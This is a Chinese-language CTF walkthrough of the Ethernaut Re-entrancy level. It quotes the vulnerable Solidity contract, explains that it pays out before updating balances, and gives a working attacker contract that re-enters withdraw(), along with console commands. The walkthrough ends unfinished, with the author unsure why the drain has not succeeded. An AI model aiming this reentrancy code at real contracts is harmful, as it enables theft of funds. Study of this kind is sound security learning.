 终于到了合约中最牛逼的一个漏洞！！！

> The goal of this level is for you to steal all the funds from the contract.
>
>  Things that might help:
>
> - Untrusted contracts can execute code where you least expect it.
> - Fallback methods
> - Throw/revert bubbling
> - Sometimes the best way to attack a contract is with another contract.
> - See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```



问题就在于 是先call发完钱后，再更新的balance。而call会调用目标合约的fallback！ 可以一直递归调用！

由于用的call，所以gas limit是要大于transfer的2300的，所以可以递归调用很多次！



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IReentrancy {
    function withdraw(uint256 _amount) external ;  
} 
contract reEntrance{
    address payable levelInstance;
    constructor(address payable _levelInstance) {
        levelInstance = _levelInstance;
    }
    
    function attack(uint256 _amount) payable public {
        IReentrancy(levelInstance).withdraw(_amount);
    }

    receive() external payable {
        IReentrancy(levelInstance).withdraw(msg.value);
    } 
}
```

部署完后，console调用 donate，向攻击合约的地址转点钱：

```
await contract.donate("0x86FFC485b32d121e8525f67860F093400EF69879",{value:toWei("0.005")})
```



然后 attack。

填 `5000000000000000 ` (0.005 eth)

![image-20250302160157705](./Re-Entrancy/images/image-20250302160157705.png)



嘶，取了一大笔啊，为什么还是不成功呢？

![image-20250302160923106](./Re-Entrancy/images/image-20250302160923106.png)



是要多取几次么？

可以用 await getBalance(contract.address) 看合约的余额。

emmm。。。